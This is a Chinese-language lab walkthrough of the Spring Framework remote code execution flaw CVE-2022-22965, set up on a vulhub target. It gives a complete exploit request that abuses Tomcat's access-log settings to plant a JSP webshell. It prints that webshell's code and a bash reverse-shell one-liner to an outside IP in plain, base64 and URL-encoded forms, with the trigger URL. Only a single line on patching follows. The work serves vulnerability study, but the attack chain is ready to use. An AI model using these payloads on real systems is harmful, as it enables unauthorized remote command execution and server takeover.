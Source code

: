 # Spring Framework远程代码执行（CVE-2022-22965）

### 0x00 简介

2022年3月 Spring Framework 爆出严重级别的安全漏洞，在 JDK 9 及以上版本环境下，可以利用此漏洞在未授权的情况下在目标系统上写入恶意程序从而远程执行任意代码。Spring Framework 官方很快发布了5.3.18以及5.2.20修复了该漏洞。该 CVE-2022-22965 漏洞是因为在 Java 9的环境下，引入了 class.module.classLoader，导致了 CVE-2010-1622 漏洞补丁的绕过，从而造成这个漏洞。

利用条件：

- JDK版本：JDK 9及以上版本
- 受影响组件：直接或者间接地使⽤了Spring-beans包（Spring boot等框架都使用了）
- 受影响的版本：Spring Framework < 5.3.18 ，Spring Framework < 5.2.20 及衍生版本
- 部署方式：使用war包部署于tomcat

### 0x01 环境搭建

使用vulhub进行环境搭建`spring/CVE-2022-22965`

服务器启动后，浏览` http://your-ip:8080/?name=Bob&age=25` 查看示例页面。

![image-20230413150401956](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230413150401956.png)

### 0x02 POC/EXP脚本

cve_2022_22965_rce.py: `https://github.com/lcyunkong/pochub/blob/main/pochub/poc_list/web/Spring/cve_2022_22965_rce.py`

```python
# 利用：
# 在代码最后传入目标url即可，实例：
vuln_exploit_start("http://192.168.12.130:8080")
```

### 0x03 复现步骤

1、使用BrupSuite代理浏览器，访问靶场并进行拦截，将拦截后的请求放于repeater模块中，使用下面的POC更改 Apache Tomcat 中的日志记录配置并将日志写入 JSP 文件：

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1

```

![image-20230413154259807](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230413154259807.png)

2、然后，就可以使用JSP webshell成功执行任意命令

```
http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=id
```

![image-20230413154354656](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230413154354656.png)

3、AccessLogValve输出的日志实际内容其实是下面的样子，一个JSP webshell。

```jsp
<%
if("j".equals(request.getParameter("pwd"))){
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
}
%>//
```

4、通过webshell获取shell

```shell
bash -i >& /dev/tcp/192.168.12.152/5555 0>&1

# base64编码
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyLjE1Mi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}

# URL编码
bash%20-c%20%7Becho%2CYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjEyLjE1Mi81NTU1IDA%2BJjE%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D
```

访问一下链接，即可获取shell

```
http://192.168.12.130:8080/tomcatwar.jsp?pwd=j&cmd=bash%20-c%20%7Becho%2CYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjEyLjE1Mi81NTU1IDA%2BJjE%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D
```

![image-20230413155401380](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230413155401380.png)

### 0x04 修复方案

1、更新spring-beans版本，官方已经发布了补丁，在最新版本v5.3.18和v5.2.20中完成了漏洞的修复。